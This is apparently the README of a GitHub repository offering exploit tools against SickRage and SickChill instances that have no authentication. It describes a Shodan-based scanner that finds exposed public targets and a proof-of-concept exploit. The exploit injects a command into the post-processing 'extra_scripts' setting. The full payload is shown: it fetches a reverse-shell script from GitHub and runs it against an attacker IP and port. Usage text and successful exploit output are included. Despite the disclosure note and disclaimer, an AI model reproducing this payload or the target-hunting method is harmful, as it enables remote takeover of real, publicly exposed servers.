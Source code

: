 # SickSploit

Collection of tools/scripts to exploit Sick* instances (SickRage, SickChill and similar forks.)

## Introduction 

SickRage/Chill/Beard are tools to automate the download of TV-Series using torrent or Usenet.
The programs offer similar functionalities and are all exploitable using the same technique.
In this repositories there are several tools, 'sickown' is a script which uses Shodan API to track down possible vulnerable instances of Sick* which are publicly exposed on the Internet.
Sickspolit is a POC tool that exploits a vulnerable instance.

## SickOwn 

Sickown uses a simple search query in Shodan to find open instances of Sick* and then attempts to also remove false positives from this list by querying the targets found.
At the time of the writing, 1834 targets are found.

Example usage of SickOwn is:

    $ python sickown.py -h
    usage: sickown.py [-h] API
    Use Shodan.io to track down vulnerable instances of SickChill/Rage
    positional arguments:
    API         The API_KEY for Shodan
    optional arguments:
    -h, --help  show this help message and exit

## SickSpolit

Sicksploit is a tool to provide a POC exploit for an open instance of Sickrage.
The exploit is easy and relies on a vulnerable feature. This vulnerabilities has been reported on 15th December to the maintainer of SickChill (the fork on which all the tests have been performed).
The exploit consisting in injecting a shell command in the 'extra_scripts' which are executed after post-processing downloaded files.
Post-processing usually consists of renaming and moving downloaded episodes of TV-Series, and Sick* offers the possibility to execute a custom script after each post-process.

The way I use to exploit this feature is by injecting a Payload such as:

    /usr/bin/wget https://raw.githubusercontent.com/Sudneo/sicksploit/master/shell.py -O /tmp/shell|/usr/bin/python /tmp/shell 192.168.1.200 4444

This will clearly download a simple reverse shell which I have also included in the repo and then execute it with IP:port to connect to as parameters.

Example usage:

    $ python sicksploit.py -h
    usage: sicksploit.py [-h] URL RHOST RPORT

    Exploit open instances of Sick*

    positional arguments:
    URL         The URL of the sick* instance to exploit - host:port
    RHOST       The IP where the exploited instance should connect to.
    RPORT       The port where the exploited instance should connect to.

    optional arguments:
    -h, --help  show this help message and exit

---

    python sicksploit.py http://192.168.1.105:8081 192.168.1.200 4444
    [+] Trying to get current values for some config items not to break post-processing.
    [+] Parsing current Post Processing configuration.
    [+] Successfully Parsed current configuration:
        naming_anime_multi_ep: 1
        naming_abd_pattern: %SN - %A.D - %EN
        delete_non_associated_files: on
        naming_sports_pattern: %SN - %A-D - %EN
        process_automatically: on
        mediabrowser_data: 0|0|0|0|0|0|0|0|0|0
        process_method: copy
        sony_ps3_data: 0|0|0|0|0|0|0|0|0|0
        tivo_data: 0|0|0|0|0|0|0|0|0|0
        alt_unrar_tool: unrar
        mede8er_data: 0|0|0|0|0|0|0|0|0|0
        file_timestamp_timezone: network
        naming_anime: None
        tv_download_dir: /home/daniele/process
        naming_anime_pattern: Season %0S/%SN - S%0SE%0E - %EN
        kodi_data: 0|0|0|0|0|0|0|0|0|0
        autopostprocessor_frequency: 10
        use_icacls: on
        rename_episodes: on
        unrar_tool: unrar
        unpack: 0
        naming_pattern: Season %0S/%SN - S%0SE%0E - %EN
        sync_files: !sync,lftp-pget-status,bts,!qb,!qB
        naming_multi_ep: 1
        postpone_if_sync_files: on
        allowed_extensions: nfo,srr,sfv,srt
        nfo_rename: on
        unpack_dir: 
        kodi_12plus_data: 0|0|0|0|0|0|0|0|0|0
        wdtv_data: 0|0|0|0|0|0|0|0|0|0
    [+] Starting to exploit http://192.168.1.105:8081.
    [+] Injecting payload: /usr/bin/wget https://raw.githubusercontent.com/Sudneo/sicksploit/master/shell.py -O /tmp/shell|/usr/bin/python /tmp/shell 192.168.1.200 4444
    [+] Exploit succeeded.
    [+] Trigger a manual post-processing of /home/daniele/process to execute the injected payload.
    [+] Manual post processing correctly scheduled. It might take a few minutes to actually get executed.

## Tested on

The exploit works on several versions of SickRage and SickChill where no authentication is configured. The same exploit technique would work on any SickBeard version as well.
However, I performed my tests on my own instance of SickChill Version: v2018.11.30-1 and SickRage Version: v2018.09.17-1. 


## Disclaimer

No public instances have been exploited in the process, nor I advise to do so. I have made this for pure educational purposes and I decline every responsibility for an eventual misuse of (part of) this code.


